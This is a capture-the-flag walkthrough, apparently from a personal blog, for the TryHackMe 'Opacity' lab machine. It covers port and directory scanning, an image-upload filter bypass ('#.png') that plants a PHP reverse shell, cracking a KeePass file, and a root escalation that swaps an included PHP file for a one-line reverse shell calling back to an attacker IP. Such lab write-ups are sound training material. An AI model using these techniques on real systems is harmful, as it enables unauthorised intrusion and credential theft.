 ```yaml
---
title: "Opacity TryHackMe"
collection: publications
permalink: /publication/Opacity
excerpt: 'This is a free machine from TryHackMe'
date: 2023-04-10
venue: '04-10'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
#citation: 'Your Name, You. (2009). &quot;Paper Title Number 1.&quot; <i>Journal 1</i>. 1(1).'
---
```


![header](/images/opacity-header.png)

**LINK :** [Opacity](https://tryhackme.com/room/opacity)

---

## Enumeration : 

* Let's scan the target :

```bash
# nmap -sC -sV -T4 10.10.131.31
Starting Nmap 7.92 ( https://nmap.org ) at 2023-04-10 12:22 EDT
Nmap scan report for 10.10.131.31
Host is up (0.095s latency).
Not shown: 996 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 0f:ee:29:10:d9:8e:8c:53:e6:4d:e3:67:0c:6e:be:e3 (RSA)
|   256 95:42:cd:fc:71:27:99:39:2d:00:49:ad:1b:e4:cf:0e (ECDSA)
|_  256 ed:fe:9c:94:ca:9c:08:6f:f2:5c:a6:cf:4d:3c:8e:5b (ED25519)
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-title: Login
|_Requested resource was login.php
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
* The scan reveals 4 open ports, i think that the SMB port was just a rabbit hole.

* Browsing to the web page i found this login page, i tried some sql injection payloads but it didn't work.

![opacity1](/images/opacity1.png)

* Let's see if we can find any hidden directories :

```bash
# gobuster dir -u http://10.10.131.31 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.131.31
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2023/04/10 12:23:51 Starting gobuster in directory enumeration mode
===============================================================
/css                  (Status: 301) [Size: 310] [--> http://10.10.131.31/css/]
/cloud                (Status: 301) [Size: 312] [--> http://10.10.131.31/cloud/]
```

* I found this */cloud* directory, so after i saw a file upload function the first thing comes to my mind is reverse shell

![opacity2](/images/opacity2.png)

* Let's start a web server on our local machine:

![opacity3](/images/opacity3.png)

>shell.php : https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

* So as you can see we can upload a file from an external URL, but unfortunately we can only upload images.

![opacity4](/images/opacity4.png)

* After i added .png to the URL, i was able to upload the file but i couldn't trigger the reverse shell.

![opacity5](/images/opacity5.png)

*  I spent a lot of time trying to bypass the file extension checks.

>https://book.hacktricks.xyz/pentesting-web/file-upload


* In order to bypass the restriction, you have to add #.png at the end of the URL.

![opacity6](/images/opacity6.png)

* Open the image and bingo you will receive the connection

![opacity7](/images/opacity7.png)

![opacity8](/images/opacity8.png)


## Horizontal Privilege Escalation :

* I found this interesting file in /opt

![opacity9](/images/opacity9.png)

> A KDBX file is a password database created by KeePass Password Safe.

* Let's start a web server and download the file to our local machine 

![opacity10](/images/opacity10.png)

![opacity11](/images/opacity11.png)

* We need a password to open this file, so let's crack the file using *keepass2john* and then *john*

![opacity12](/images/opacity12.png)

* Bingo we found the password.

![opacity13](/images/opacity13.png)

* Now let's open the file using *keepassxc*

```bash
# keepassxc dataset.kdbx
```
![opacity14](/images/opacity14.png)

* Enter the password.

![opacity16](/images/opacity16.png)

![opacity15](/images/opacity15.png)

* Let's login via ssh using this credentials and get the user flag.

![opacity17](/images/opacity17.png)

## Vertical Privilege Escalation :

* Let's see what processes are running on this machine using *pspy*

>https://github.com/DominicBreuker/pspy

* Open a web server on your local machine and then download the executable to the target machine

![opacity18](/images/opacity18.png)

![opacity19](/images/opacity19.png)

* After you run it, you will see a file called *script.php* is running

![opacity20](/images/opacity20.png)

* Let's read this file

![opacity21](/images/opacity21.png)

* The script requires a file called backup.inc.php this means it will call this file , then it backups all the files in /home/sysadmin/scripts to /var/backups/backup.zip


* As you can see the backup.inc.php is owned by root, so we can't modify it

![opacity22](/images/opacity22.png)

* You should notice that the sysadmin user have all the permissions to the *lib* folder

![opacity23](/images/opacity23.png)

* So the idea here is we're going to copy *backup.inc.php* to our home directory, now we can modify the file.

![opacity24](/images/opacity24.png)

* Let's add a php reverse shell


```bash
$sock=fsockopen("10.X.X.X",4444);exec("sh <&3 >&3 2>&3");
```

![opacity25](/images/opacity25.png)

* The next step is to remove the backup.inc.php from *script/lib/*, then move the modified file to *scripts/lib/*

![opacity26](/images/opacity26.png)

* Start a netcat listener and wait for the reverse shell.

![opacity27](/images/opacity27.png)

